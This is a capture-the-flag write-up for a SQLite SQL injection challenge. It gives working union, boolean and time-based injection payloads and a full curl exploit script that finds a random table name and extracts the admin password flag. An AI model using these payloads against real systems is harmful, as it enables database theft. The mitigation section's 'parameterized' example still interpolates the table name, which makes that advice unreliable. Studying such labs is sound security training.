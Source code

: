 # SQL Injection Challenge: Dynamic Table Name Exploitation

## Challenge Description
This challenge presents a web application with a randomized table name storing user credentials, requiring attackers to:
1. Discover the randomly-generated table name
2. Extract the flag stored in the admin's password field

## Vulnerability Analysis
**Type**: Union-based SQL Injection with Schema Discovery  
**CVSS Score**: 9.1 (Critical)  
**Vulnerable Parameter**: `query` GET parameter  
**Root Cause**: 
- Direct string interpolation in SQL query
- Excessive error/output disclosure
- Access to SQLite metadata tables

## Exploitation Walkthrough

### Step 1: Table Name Discovery
```bash
TABLE=$(curl -s "http://challenge.localhost/?query=%22%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%3D%27table%27%20AND%20name%20LIKE%20%27users_%25%27--" | grep -o "users_[0-9]\+")
```

**Payload Breakdown**:
- `%22` - Closes the original string literal
- `UNION SELECT name FROM sqlite_master` - Queries metadata
- `WHERE type='table' AND name LIKE 'users_%'` - Filters target tables
- `--` - Comments out remainder

### Step 2: Flag Extraction
```bash
curl -s "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20$TABLE%20WHERE%20username%3D%27admin%27--" | grep -o "pwn.college{.*}"
```

**Payload Breakdown**:
- Uses discovered table name (`$TABLE`)
- Targets password field for admin user
- `grep` extracts flag from output

## Technical Details

### Resulting Queries
1. **Schema Discovery**:
   ```sql
   SELECT username FROM [REDACTED] WHERE username LIKE ""
   UNION SELECT name FROM sqlite_master 
   WHERE type='table' AND name LIKE 'users_%'--"
   ```

2. **Flag Extraction**:
   ```sql
   SELECT username FROM [REDACTED] WHERE username LIKE ""
   UNION SELECT password FROM users_[RANDOM] 
   WHERE username='admin'--"
   ```

## Impact Assessment
- Complete database schema disclosure
- Extraction of sensitive credentials
- Bypass of authentication mechanisms
- Potential for full database compromise

## Mitigation Strategies

1. **Secure Coding Practices**:
   ```python
   # Parameterized queries
   db.execute("SELECT username FROM {} WHERE username LIKE ?".format(table), (query,))
   ```

2. **Database Hardening**:
   ```sql
   PRAGMA trusted_schema=OFF;
   PRAGMA cell_extra_bytes=0;
   ```

3. **Input Validation**:
   - Reject queries containing SQL keywords
   - Implement allow-list for safe characters

4. **Output Restrictions**:
   - Sanitize displayed output
   - Limit returned columns/rows

## Key Lessons Learned
1. **Metadata Tables Are Dangerous**: SQLite's `sqlite_master` exposes critical schema information
2. **Dynamic Obfuscation Isn't Security**: Random table names don't prevent injection
3. **Union Attacks Are Powerful**: Can bypass many output limitations
4. **Defense Requires Depth**: Single protections are easily circumvented

## Full Exploit Script
```bash
#!/bin/bash
# Discover random table name
TABLE=$(curl -s "http://challenge.localhost/?query=%22%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%3D%27table%27%20AND%20name%20LIKE%20%27users_%25%27--" | grep -o "users_[0-9]\+")

# Extract flag
curl -s "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20$TABLE%20WHERE%20username%3D%27admin%27--" | grep -o "pwn.college{.*}"
```

## Alternative Techniques
If UNION is blocked, consider:
```bash
# Boolean-based table discovery
curl "http://challenge.localhost/?query=\" AND (SELECT COUNT(*) FROM sqlite_master WHERE type='table' AND name LIKE 'users_%')=1--"

# Time-based data extraction
curl "http://challenge.localhost/?query=\" AND (SELECT CASE WHEN (SELECT substr(password,1,1) FROM $TABLE)='p' THEN randomblob(100000000) ELSE 0 END)--"
